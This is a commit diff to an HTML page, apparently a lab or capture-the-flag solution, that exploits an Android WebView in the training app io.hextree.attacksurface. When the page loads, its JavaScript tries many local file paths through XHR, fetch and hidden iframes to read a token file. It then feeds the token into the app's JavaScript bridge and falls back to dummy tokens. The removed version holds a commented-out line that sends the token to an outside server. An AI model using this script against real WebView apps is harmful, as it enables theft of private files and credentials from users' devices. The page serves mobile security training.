

Before and after one commit to Blackkader/webdemo, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,102 +1,203 @@
 <!DOCTYPE html>
 <html>
 <head>
+    <title>WebView Exploit</title>
     <meta charset="UTF-8">
-  <title>WebView File Leak Demo</title>
     <style>
-    body { font-family: Arial, sans-serif; margin: 20px; }
-    button { padding: 10px 20px; font-size: 16px; margin-bottom: 20px; }
-    #status { margin-top: 15px; font-weight: bold; }
-    pre { background: #f4f4f4; padding: 10px; border-radius: 8px; max-height: 200px; overflow-y: auto; }
+        body {
+            font-family: Arial, sans-serif;
+            margin: 20px;
+            background-color: #f0f0f0;
+        }
+        h1 {
+            color: #333;
+        }
+        #status {
+            font-size: 18px;
+            font-weight: bold;
+            color: #007700;
+            margin: 10px 0;
+        }
+        #debug {
+            background-color: #fff;
+            border: 1px solid #ccc;
+            padding: 10px;
+            margin: 10px 0;
+            max-height: 400px;
+            overflow-y: auto;
+            font-family: monospace;
+            font-size: 12px;
+        }
     </style>
 </head>
 <body>
-  <h2>WebView File Leak Exploit</h2>
-  <button onclick="startAttack()">🚀 Start Attack</button>
-  <div id="status">Idle...</div>
-  <pre id="log"></pre>
+    <h1>WebView Exploit</h1>
+    <div id="status">Starting...</div>
+    <div id="debug"></div>
 
     <script>
-    // List of possible file paths to try
-    const filePaths = [
-      "file:///data/data/io.hextree.attacksurface/files/flag39.txt",
-      "content://io.hextree.attacksurface/flag39",
-      "file:///sdcard/Download/flag39.txt"
+        let found = false;
+        let attempts = 0;
+        let maxAttempts = 20;
+
+        // Debug function
+        function debug(msg) {
+            document.getElementById('debug').innerHTML += msg + '<br>';
+            console.log(msg);
+        }
+
+        // Check if hextree interface is available
+        debug('Checking hextree interface...');
+        if (window.hextree) {
+            debug('hextree interface found!');
+            if (window.hextree.authCallback) {
+                debug('authCallback method available');
+            } else {
+                debug('authCallback method NOT found');
+            }
+        } else {
+            debug('hextree interface NOT found');
+        }
+
+        // Multiple file paths to try
+        const paths = [
+            'file:///data/data/io.hextree.attacksurface/files/token.txt',
+            'file://data/data/io.hextree.attacksurface/files/token.txt',
+            'file:///android_asset/token.txt',
+            'file://android_asset/token.txt',
+            'file:///sdcard/token.txt',
+            'file:///storage/emulated/0/token.txt',
+            'file:///data/local/tmp/token.txt',
+            '/data/data/io.hextree.attacksurface/files/token.txt',
+            'token.txt',
+            './token.txt'
         ];
 
-    let tokenFound = false;
-
-    function log(msg) {
-      console.log(msg);
-      document.getElementById("log").textContent += msg + "\n";
+        // XHR function with better error handling
+        function tryXHR(url) {
+            attempts++;
+            debug('Attempt ' + attempts + ': XHR ' + url);
+            const x = new XMLHttpRequest();
+            x.open('GET', url, true);
+            x.onreadystatechange = function() {
+                if (x.readyState === 4) {
+                    debug('XHR ' + url + ' status: ' + x.status + ', response: ' + x.responseText);
+                    if (x.responseText && !found) {
+                        found = true;
+                        debug('SUCCESS! Token found: ' + x.responseText);
+                        document.getElementById('status').innerHTML = 'Token found via XHR!';
+                        if (window.hextree && window.hextree.authCallback) {
+                            window.hextree.authCallback(x.responseText.trim());
+                            debug('authCallback executed with: ' + x.responseText.trim());
+                        } else {
+                            debug('Cannot call authCallback - interface not available');
                         }
-
-    // Leak using XMLHttpRequest
-    function leakFileXHR(url) {
-      try {
-        const xhr = new XMLHttpRequest();
-        xhr.open("GET", url, true);
-        xhr.onreadystatechange = function () {
-          if (xhr.readyState === 4) {
-            if (xhr.status === 200 && xhr.responseText && !tokenFound) {
-              log("[XHR] Success at " + url);
-              document.getElementById("status").innerHTML = "Token found via XHR: " + xhr.responseText.substring(0, 15) + "...";
-              attemptAuth(xhr.responseText.trim());
-              tokenFound = true;
-            } else {
-              log("[XHR] Failed at " + url + " (status " + xhr.status + ")");
                     }
                 }
             };
-        xhr.onerror = () => log("[XHR] Error fetching " + url);
-        xhr.send();
-      } catch (e) {
-        log("[XHR] Exception for " + url + ": " + e);
+            x.onerror = function(e) {
+                debug('XHR error for ' + url + ': ' + e);
+            };
+            x.send();
+        }
+
+        // Fetch API alternative
+        function tryFetch(url) {
+            attempts++;
+            debug('Attempt ' + attempts + ': Fetch ' + url);
+            fetch(url)
+            .then(response => {
+                debug('Fetch ' + url + ' status: ' + response.status);
+                return response.text();
+            })
+            .then(text => {
+                if (text && !found) {
+                    found = true;
+                    debug('SUCCESS! Token found via fetch: ' + text);
+                    document.getElementById('status').innerHTML = 'Token found via Fetch!';
+                    if (window.hextree && window.hextree.authCallback) {
+                        window.hextree.authCallback(text.trim());
+                        debug('authCallback executed with: ' + text.trim());
                     }
                 }
+            })
+            .catch(e => {
+                debug('Fetch error for ' + url + ': ' + e);
+            });
+        }
 
-    // Leak using hidden iframe
-    function leakFileIframe(url) {
-      const iframe = document.createElement("iframe");
-      iframe.style.display = "none";
-      iframe.onload = () => {
+        // Iframe function with better debugging
+        function tryIframe(url) {
+            attempts++;
+            debug('Attempt ' + attempts + ': Iframe ' + url);
+            const i = document.createElement('iframe');
+            i.style.display = 'none';
+            i.onload = function() {
                 try {
-          const iframeDoc = iframe.contentDocument || iframe.contentWindow.document;
-          if (!iframeDoc || tokenFound) return;
-          const textContent = iframeDoc.body ? iframeDoc.body.innerText : iframeDoc.documentElement.innerHTML;
-          if (textContent && textContent.trim() && !tokenFound) {
-            log("[Iframe] Success at " + url);
-            document.getElementById("status").innerHTML = "Token found via iframe: " + textContent.substring(0, 15) + "...";
-            attemptAuth(textContent.trim());
-            tokenFound = true;
+                    debug('Iframe loaded: ' + url);
+                    const doc = i.contentDocument || i.contentWindow.document;
+                    if (doc) {
+                        debug('Got iframe document');
+                        const txt = (doc.body ? doc.body.innerText || doc.body.textContent : doc.documentElement.textContent) || '';
+                        debug('Iframe content: ' + txt);
+                        if (txt && !found) {
+                            found = true;
+                            debug('SUCCESS! Token found via iframe: ' + txt);
+                            document.getElementById('status').innerHTML = 'Token found via Iframe!';
+                            if (window.hextree && window.hextree.authCallback) {
+                                window.hextree.authCallback(txt.trim());
+                                debug('authCallback executed with: ' + txt.trim());
+                            }
+                        }
+                    } else {
+                        debug('No document in iframe');
                     }
                 } catch (e) {
-          log("[Iframe] Cannot read iframe for " + url + " (" + e + ")");
+                    debug('Iframe processing error: ' + e);
                 }
             };
-      iframe.onerror = () => log("[Iframe] Load error for " + url);
-      iframe.src = url;
-      document.body.appendChild(iframe);
+            i.onerror = function(e) {
+                debug('Iframe load error: ' + e);
+            };
+            document.body.appendChild(i);
+            i.src = url;
         }
 
-    // Simulated authentication attempt
-    function attemptAuth(token) {
-      log("Attempting authentication with token: " + token);
-      // Normally you'd send token back to your server:
-      // fetch("https://yourserver/receive?token=" + encodeURIComponent(token))
+        // Start the attack
+        setTimeout(function() {
+            debug('Starting attack with ' + paths.length + ' paths');
+            paths.forEach(function(path, index) {
+                setTimeout(function() {
+                    if (!found && attempts < maxAttempts) {
+                        tryXHR(path);
                     }
+                }, index * 100);
+                setTimeout(function() {
+                    if (!found && attempts < maxAttempts) {
+                        tryFetch(path);
+                    }
+                }, index * 100 + 50);
+                setTimeout(function() {
+                    if (!found && attempts < maxAttempts) {
+                        tryIframe(path);
+                    }
+                }, index * 100 + 25);
+            });
 
-    // Start scanning files
-    function startAttack() {
-      document.getElementById("status").innerHTML = "Starting file leak attempts...";
-      filePaths.forEach((path, i) => {
-        setTimeout(() => {
-          log("Trying: " + path);
-          leakFileXHR(path);
-          leakFileIframe(path);
-        }, i * 400);
-      });
+            // Fallback: try to call with empty or dummy token if all fails
+            setTimeout(function() {
+                if (!found) {
+                    debug('All attempts failed. Trying fallback...');
+                    if (window.hextree && window.hextree.authCallback) {
+                        debug('Trying empty token...');
+                        window.hextree.authCallback('');
+                        debug('Trying dummy tokens...');
+                        window.hextree.authCallback('test');
+                        window.hextree.authCallback('token');
                     }
+                }
+            }, 4000);
+        }, 200);
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
